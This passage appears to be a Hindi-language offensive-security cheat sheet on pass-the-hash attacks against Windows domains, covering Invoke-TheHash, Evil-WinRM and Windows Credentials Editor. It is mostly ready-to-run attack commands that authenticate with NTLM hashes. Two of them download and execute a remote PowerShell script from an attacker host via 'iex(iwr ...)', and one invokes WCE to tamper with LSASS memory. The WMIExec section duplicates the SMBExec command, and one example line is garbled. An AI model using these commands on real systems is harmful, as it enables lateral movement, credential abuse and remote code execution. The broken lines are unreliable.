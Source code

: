 ### Invoke-TheHash

आप यहां powershell स्क्रिप्ट प्राप्त कर सकते हैं: [https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

#### Invoke-SMBExec
```bash
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```
#### Invoke-WMIExec
```bash
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```
#### Invoke-SMBClient
```bash
Invoke-SMBClient -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 [-Action Recurse] -Source \\dcorp-mgmt.my.domain.local\C$\ -verbose
```
#### Invoke-SMBEnum
```bash
Invoke-SMBEnum -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 -Target dcorp-mgmt.dollarcorp.moneycorp.local -verbose
```
#### Invoke-TheHash

यह फ़ंक्शन **अन्य सभी का मिश्रण** है। आप **कई होस्ट** पास कर सकते हैं, **कुछ को बाहर** कर सकते हैं और आप जिस **विकल्प** का उपयोग करना चाहते हैं उसे **चुन सकते हैं** (_SMBExec, WMIExec, SMBClient, SMBEnum_)। यदि आप **SMBExec** और **WMIExec** में से **कोई भी** चुनते हैं लेकिन आप कोई _**Command**_ पैरामीटर नहीं देते हैं, तो यह बस **जांच करेगा** कि क्या आपके पास **पर्याप्त अनुमतियाँ** हैं।
```
Invoke-TheHash -Type WMIExec -Target 192.168.100.0/24 -TargetExclude 192.168.100.50 -Username Administ -ty    h F6F38B793DB6A94BA04A52F1D3EE92F0
```
### [Evil-WinRM Pass the Hash](../../network-services-pentesting/5985-5986-pentesting-winrm.md#using-evil-winrm)

### Windows Credentials Editor (WCE)

**प्रशासक के रूप में चलाने की आवश्यकता है**

यह उपकरण वही करेगा जो mimikatz (LSASS मेमोरी को संशोधित करना) करता है।
```
wce.exe -s <username>:<domain>:<hash_lm>:<hash_nt>
```
### मैनुअल विंडोज रिमोट निष्पादन उपयोगकर्ता नाम और पासवर्ड के साथ

{% content-ref url="../lateral-movement/" %}
[lateral-movement](../lateral-movement/)
{% endcontent-ref %}

